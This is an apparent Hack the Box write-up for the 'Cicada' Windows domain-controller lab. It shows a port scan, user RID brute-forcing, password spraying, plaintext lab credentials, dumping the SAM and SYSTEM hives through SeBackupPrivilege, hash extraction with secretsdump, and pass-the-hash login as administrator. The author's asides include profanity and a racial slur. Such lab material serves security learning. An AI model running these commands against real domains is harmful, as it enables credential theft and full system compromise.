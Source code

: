 ```yaml
---
title: Cicada - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Cicada.png
---
```

### Scan
```
Nmap scan report for 10.10.11.35
Host is up (0.12s latency).
Not shown: 65522 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-03 23:26:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
57094/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-03T23:26:51
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 373.81 seconds

```
### Enum
Dealing with Domain Controller!
```
Cicada$M6Corpb*@Lp#nZp!8
```


`nxc smb 10.10.11.35 -u 'null' -p '' --rid-brute` Elite way to brute users for dc

holy fuck nxc `nxc smb 10.10.11.35 -u /home/li0t/Desktop/HTB/Cicada/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

ldapdomaindump underrated goat? `ldapdomaindump --user cicada.htb\michael.wrightson --password 'Cicada$M6Corpb*@Lp#nZp!8' -m 10.10.11.35` make sure to do in specified dir because it outputs json and html files.

creds for david! ![Image](/assets/Screenshot 2024-10-04 at 11.48.52 AM.png) `aRt$Lp#7t*VQ!3`

Backup script in DEv

emily creds (a lot of lateral, no?) `emily.oscars` `Q!3@Lp#M6b*7t*Vt`

evilwinrm with emily creds. whoami /priv reveals SEbackuppriv!

I couldnt get og blackfield method to work, so found easier way 
```
reg save hklm\sam C:	emp\SAM
reg save hklm\system C:	emp\SYSTEM
```

then, make sure in correct dir, 
`download .\SAM` and `download .\SYSTEM`

copied correctly ![Image](/assets/Screenshot 2024-10-04 at 12.24.12 PM.png) 

get NTLM hashes with `python3 secretsdump.py -system SYSTEM -sam SAM LOCAL`. make sure to copy correct secrets dump to dir

![Image](/assets/Screenshot 2024-10-04 at 12.27.28 PM.png)

now pass that hash nigga `evil-winrm -i 10.10.11.35 -u "administrator" -H '2b87e7c93a3e8a0ea4a581937016f341'`

boom ![Image](/assets/Screenshot 2024-10-04 at 12.28.03 PM.png)
